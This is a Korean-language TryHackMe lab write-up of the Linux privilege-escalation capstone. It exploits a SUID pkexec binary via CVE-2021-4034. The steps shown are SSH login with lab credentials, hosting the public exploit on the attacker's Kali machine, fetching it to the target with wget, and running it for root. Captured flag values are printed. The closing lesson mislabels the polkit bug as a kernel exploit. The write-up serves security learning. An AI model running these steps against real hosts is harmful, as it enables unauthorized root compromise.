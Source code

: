 ## 🚩 Final Mission: Capstone Challenge
> TryHackMe Linux Privilege Escalation 실습의 마지막 단계인 Capstone Challenge에서, SUID로 설정된 `pkexec` 바이너리를 이용한 CVE-2021-4034(Local Privilege Escalation via Polkit) 익스플로잇을 활용해 루트 권한을 획득하고 플래그를 수집하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.47.252
- **공격 머신**: Kali Linux
- **사용 계정**: `leonard:Penny123`
- **공격 방식**: CVE-2021-4034 (Polkit pkexec Local Privilege Escalation)
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속 및 SUID 바이너리 확인

```bash
ssh leonard@10.10.47.252
```
- leonard 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 로그인 및 SUID 확인](./screenshots/ssh_connect.png)

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
- SUID가 설정된 바이너리 목록에서 `/usr/bin/pkexec` 확인하였다.

![pkexec SUID 확인](./screenshots/pkexec_suid.png)

---

#### 2.2 Exploit 준비 및 Kali SSH 활성화
- Kali에서 SSH 서버를 실행하여 외부에서 접근 가능하도록 설정하였다.
```bash
systemctl start ssh
```

![Kali SSH 서버 활성화](./screenshots/ssh_start.png)

---

#### 2.3 Exploit 다운로드 및 전송 (Windows → Kali)
- 사용한 파일: `CVE-2021-4034.py` (Polkit pkexec Exploit)
- 해당 파일은 [GitHub 링크](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)에서 다운로드하였으며, 이후 실습 환경에 맞춰 수정되었다.

- Windows에서 Kali로 scp 명령어를 이용해 CVE-2021-4034 exploit 파일을 전송함.

```powershell
scp D:/exploit_file/CVE-2021-4034.py root@<KALI-IP>:/root
```

![Windows → Kali SCP 전송](./screenshots/move_scp.png)

---

#### 2.4 Kali → Target 파일 전송 (HTTP 서버)
- Kali에서 HTTP 서버 구동 후, 타겟 머신에서 `wget`으로 파일 다운로드.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/CVE-2021-4034.py -O /tmp/exploit.py
```
- `/tmp` 디렉토리에 `exploit.py` 로 파일 이름 저장.

![Kali HTTP 서버 및 Target 다운로드](./screenshots/wget_download.png)

---

#### 2.5 Exploit 실행 전 환경 확인 및 수정

- Target 머신에서 `/tmp/exploit.py` 확인 후 실행 시 python3가 없다는 에러 발생하였다.

![python3 오류 및 수정](./screenshots/py_error.png)

- 후에 `vi exploit.py`로 파일 열고 python3 → python으로 shebang 수정.
- 또한 `:version` 명령어를 통해 `+python` / `-python3` 환경임을 확인하였다.
```bash
chmod +x exploit.py
```

![:version을 통해 +python 확인](./screenshots/version_python.png)

---

#### 2.6 Exploit 실행 및 루트 쉘 획득

- exploit.py를 실행하여 루트 쉘 획득 성공하였다.
```bash
./exploit.py
```

![루트 쉘 획득](./screenshots/get_root.png)

---

#### 2.7 플래그 탐색 및 획득

```bash
find / -name flag1.txt
cat /home/missy/Documents/flag1.txt

find / -name flag2.txt
cat /home/root/flag/flag2.txt
```

![플래그 2개 획득](./screenshots/flag_capture.png)

---

## 📁 부록: Exploit 파일 정보

- `/exploit.py`: 실습 환경에 맞춰 수정된 CVE-2021-4034 Python Exploit 스크립트입니다.
  - 수정사항: shebang을 `python3` → `python`으로 변경하여 대상 머신에서 실행 가능하도록 조정함
  - 원본 출처: [CVE-2021-4034 Python Exploit (GitHub)](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)

---

### 3. 최종 결과
- CVE-2021-4034를 이용하여 루트 권한 획득 성공 (`uid=0(root)`)
- Exploit 실행 환경에 맞춰 python 버전을 수정하는 과정이 필요하였다.
- flag1.txt 파일에서 플래그 확보: `THM-42828719920544`
- flag2.txt 파일에서 플래그 확보: `THM-168824782390238`

---

### 4. 배운 점
> ✅ Capstone Challenge를 통해 그동안 배운 권한 상승 기법 중 하나인 Kernel Exploit의 실제 활용과, SUID 기반 취약점 탐지 및 익스플로잇 환경 설정의 중요성을 복습할 수 있었다. 특히 실행 환경의 python 버전과 같이, 사소하지만 중요한 요소가 Exploit 성공 여부를 좌우할 수 있다는 점을 체감하였다.

